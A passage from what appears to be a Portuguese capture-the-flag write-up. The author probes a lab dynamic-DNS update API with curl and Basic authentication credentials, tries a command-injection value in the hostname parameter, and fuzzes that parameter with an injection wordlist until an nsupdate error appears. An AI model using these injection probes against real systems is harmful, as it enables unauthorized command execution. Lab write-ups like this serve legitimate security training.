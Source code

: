 Enquanto brincava um pouco com a API comecei a receber alguns erros do tipo **wrngdom** quando nenhum dos domínios suportados encontra-se presente, conforme abaixo:

```bash
$ curl -i -s -k -H $'Authorization: Basic ZHluYWRuczpzbmRhbnlk' "http://10.10.10.244/nic/update?myip=10.10.10.10&hostname=;pwd" -v
*   Trying 10.10.10.244:80...
* Connected to 10.10.10.244 (10.10.10.244) port 80 (#0)
> GET /nic/update?myip=10.10.10.10&hostname=;pwd HTTP/1.1
> Host: 10.10.10.244
> User-Agent: curl/7.74.0
> Accept: */*
> Authorization: Basic ZHluYWRuczpzbmRhbnlk
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
HTTP/1.1 200 OK
< Date: Fri, 13 Aug 2021 21:38:23 GMT
Date: Fri, 13 Aug 2021 21:38:23 GMT
< Server: Apache/2.4.41 (Ubuntu)
Server: Apache/2.4.41 (Ubuntu)
< Content-Length: 16
Content-Length: 16
< Content-Type: text/html; charset=UTF-8
Content-Type: text/html; charset=UTF-8

<
911 [wrngdom: ]
* Connection #0 to host 10.10.10.244 left intact
```

Buscando por possibilidades de injeção de código, comecei a fazer o fuzzing com um laço simples `while` com o conteúdo do dicionário em `/usr/share/wordlists/wfuzz/Injections/All_attack.txt`, até obter o erro abaixo:

```bash
$ while read p; do
while> curl -i -s -k -H $'Authorization: Basic ZHluYWRuczpzbmRhbnlk' "http://10.10.10.244/nic/update?myip=10.10.10.10&hostname==$p.no-ip.htb" -v
while> done < /usr/share/wordlists/wfuzz/Injections/All_attack.txt

[...]
* Connection #0 to host 10.10.10.244 left intact
*   Trying 10.10.10.244:80...
* Connected to 10.10.10.244 (10.10.10.244) port 80 (#0)
> GET /nic/update?myip=10.10.10.10&hostname=-1.no-ip.htb HTTP/1.1
> Host: 10.10.10.244
> User-Agent: curl/7.74.0
> Accept: */*
> Authorization: Basic ZHluYWRuczpzbmRhbnlk
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
HTTP/1.1 200 OK
< Date: Fri, 13 Aug 2021 21:30:11 GMT
Date: Fri, 13 Aug 2021 21:30:11 GMT
< Server: Apache/2.4.41 (Ubuntu)
Server: Apache/2.4.41 (Ubuntu)
< Content-Length: 22
Content-Length: 22
< Content-Type: text/html; charset=UTF-8
Content-Type: text/html; charset=UTF-8

<
911 [nsupdate failed]
```